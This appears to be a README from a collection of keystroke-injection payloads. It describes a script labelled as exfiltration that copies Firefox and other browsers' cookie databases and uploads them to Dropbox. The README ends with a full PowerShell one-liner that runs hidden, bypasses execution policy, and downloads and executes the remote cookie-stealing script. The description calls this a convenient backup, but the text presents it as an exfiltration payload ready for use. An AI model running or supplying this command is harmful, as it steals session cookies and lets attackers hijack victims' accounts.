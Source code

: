 # Export Firefox Cookies Database

This script may come in handy for those who want to quickly save all the cookies of their Browsers session by exporting the database via dropbox accesstoken.

**Category**: Exfiltration

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script may come in handy for those who want to quickly save all the cookies of their Browsers session by exporting the database via dropbox accesstoken.

Open a PowerShell, select dynamically the Firefox path adding "browserName_cookies.sqlite" at the end, then set your exfiltration settings i.e. Dropbox access token and so on... then export it, then close the powershell.

## Dependencies

* Firefox must be installed
* Edge must be installed
* Chrome must be installed
* Opera must be installed


All
```powershell
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/Exfilaration/ExportCookiesBrowsers/exportCookies.ps1').Content"
```
